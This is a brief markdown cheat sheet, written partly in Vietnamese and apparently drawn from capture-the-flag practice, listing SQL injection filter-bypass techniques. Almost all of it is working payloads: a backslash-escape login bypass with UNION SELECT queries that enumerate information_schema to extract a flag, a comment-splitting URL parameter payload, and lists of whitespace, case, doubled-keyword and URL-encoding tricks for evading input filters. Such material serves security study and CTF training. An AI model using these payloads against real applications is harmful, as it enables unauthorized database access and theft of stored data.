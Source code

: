 # BYPASS 

## Bypass '
```sql
username: \
password: UNION SELECT table_name FROM information_schema.tables WHERE table_name like "%flag%"-- -
UNION SELECT column_name FROM information_schema.columns WHERE table_name like "flag_304ad593"-- -
UNION SELECT flag_3e53dc FROM flag_304ad593-- -

=> Dạng : "select username from users where username='\'and password=' UNION SELECT ....'  ";
```
Đoạn `\'and password=` sẽ đc coi là tên username vì \' đã vô hiệu hóa dấu '

```url
?amount=-1/*&name=*/ or 1=1-- -
```
=> Dạng dùng comment lọc tham số đầu vào kết hợp 2 query

## Bypass space 

```sql
/**/
-1/**/or/**/1=1-- -  (-1 or 1=1-- -)
%0d (CR)
%00 (null byte)
%0b ()
%0c

```

## Bypass select 
```sql
Select 
SeLeCt
SELECT 
SELSELECTECT
SEL/**/ECT
%00SELECT   
%53%45%4c%45%43%54                   #encode url 1l
%2553%2545%254c%2545%2543%2554       #encode url 2l

```

## Bypass union
```sql
uNion
UniOn
UNUNIONION
UNUNIONION%0dSELSELECTECT%0d

```

## Replaced Keywords
```sql
UNunionION SEselectLECT
uni%0bon se%0blect    # bypass keywords in Sql 

```


